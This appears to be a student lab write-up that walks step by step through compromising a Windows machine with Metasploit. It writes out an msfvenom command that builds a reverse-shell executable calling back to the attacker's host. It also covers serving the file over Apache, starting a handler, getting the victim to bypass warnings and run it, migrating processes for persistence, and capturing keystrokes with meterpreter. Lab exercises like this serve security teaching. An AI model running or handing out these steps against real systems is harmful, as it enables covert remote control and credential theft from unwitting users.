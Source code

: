 ### Date:
# Ex-6: Compromising-windows-using-Metasploit
Compromising windows using Metasploit
#### Metasploit
Compromising windows using Metasploit

## AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address using ifconfig
### OUTPUT:

![1)](https://github.com/user-attachments/assets/f0805f25-2b83-464d-ab47-c4fc99414248)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
### OUTPUT

![2)](https://github.com/user-attachments/assets/5ed26998-335c-4c81-b80d-e61daa7a50ce)


copy the fun.exe into the apache /var/www/html folder


![3)](https://github.com/user-attachments/assets/c2461816-5137-45aa-ab2d-366f1639fd2b)


Start apache server
sudo systemctl apache2 start

![4)](https://github.com/user-attachments/assets/502183a0-9ae5-4ce0-b799-d669e9ae954e)


Check the status of apache2

![5)](https://github.com/user-attachments/assets/0d8d0328-a39f-4795-b589-78643b301834)

Invoke msfconsole:
### OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![6)](https://github.com/user-attachments/assets/ea687bb8-b003-441e-a1f6-05c2ad35d12e)



set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![7)](https://github.com/user-attachments/assets/8196bb53-4ddc-4e6a-8d33-99488787e379)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![8)](https://github.com/user-attachments/assets/2de61159-cad8-452d-a933-d07914aa418d)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![9)](https://github.com/user-attachments/assets/dc8de406-d4a3-440d-9966-f7578a524f33)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![Uploading 10).png…]()



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![11)](https://github.com/user-attachments/assets/4098d1e3-0394-4012-b817-5bef3e99c744)


keyscan_dump	Shows the keystrokes captured so far

![12)](https://github.com/user-attachments/assets/7bb28d80-71b8-4664-a907-b8c9cd424fd3)


## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
